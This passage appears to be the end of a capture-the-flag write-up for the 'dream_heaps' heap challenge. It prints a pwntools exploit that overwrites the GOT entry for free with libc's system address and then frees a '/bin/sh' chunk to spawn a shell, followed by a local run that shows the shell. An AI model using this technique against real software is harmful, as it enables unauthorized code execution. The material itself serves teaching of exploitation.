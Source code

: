 ```

# Setup got table overwrite via an overflow
write('/bin/sh\x00', 0x10)
write('0'*10, 0x20)
write('0'*10, 0x30)
write('0'*10, 0x40)
write('0'*10, 0x50)
write('0'*10, 0x60)
write('0'*10, 0x70)
write('0'*10, 0x80)
write('0'*10, 0x90)
write('0'*10, 0xa0)
write('0'*10, 0xb0)
write('0'*10, 0xc0)
write('0'*10, 0xd0)
write('0'*10, 0xe0)
write('0'*10, 0xf0)
write('0'*10, 0x11)
write('0'*10, 0x22)
write('0'*10, 0x18)
write('0'*10, 0x602018)
write('0'*10, 00)

# Write libc address of system to got free address
edit(17, p64(libcBase + libc.symbols['system']))

# Free dream that points to `/bin/sh` to get a shell
delete(0)

target.interactive()
```

when we run it:

```
$ python exploit.py
[+] Starting local process './dream_heaps': pid 9062
[*] '/Hackery/pod/modules/index/swampctf19_dreamheaps/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] running in new terminal: /usr/bin/gdb -q  "./dream_heaps" 9062 -x "/tmp/pwnjqPcIc.gdb"
[+] Waiting for debugger: Done
Online dream catcher! Write dreams down and come back to them later!

.    .    .

Which dream would you like to delete?
[*] Switching to interactive mode

$ w
 22:17:41 up  1:47,  1 user,  load average: 0.39, 0.45, 0.31
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               20:31   ?xdm?   3:50   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core  dream_heaps  exploit.py  libc-2.27.so  readme.md
```

Just like that, we captured the flag!